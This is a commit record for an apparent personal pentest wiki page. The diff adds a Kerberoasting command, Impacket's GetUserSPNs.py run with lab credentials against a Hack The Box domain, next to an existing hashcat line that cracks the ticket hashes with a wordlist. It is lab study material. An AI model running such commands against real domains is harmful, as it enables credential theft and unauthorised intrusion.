

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 900 px high, scrolled down 2966 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -119,6 +119,7 @@ Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object
 
 ```
 GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
+GetUserSPNs.py -request 'painters.htb/riley':'P@ssw0rd' -dc-ip 192.168.110.55 -debug -dc-host PAINTERS.HTB
 hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
 ```
 
````
